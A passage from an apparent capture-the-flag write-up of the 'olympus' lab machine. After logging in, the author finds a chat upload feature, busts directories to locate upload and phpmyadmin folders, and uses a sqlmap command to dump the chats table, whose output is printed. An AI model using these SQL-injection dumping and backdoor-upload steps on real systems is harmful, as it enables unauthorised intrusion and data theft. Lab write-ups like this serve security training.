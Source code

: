 after logging in with the same credentials in this web site a live chat sessions is found

![chat session](./screenshots/livecaht.jpg)

It is possible to upload a file and doing some directory busting a upload folder is found but no trace of the backdoor uploaded.
but also a phpmyadmin folder is found so back to sqlmap to dump some more information

```bash
$ sqlmap -r search.req -D olympus -T chats --dump

....
....
Database: olympus
Table: chats
[7 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| dt         | msg                                                                                                                                                             | file                                 | uname      |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | <blank>                              | zeus       |
```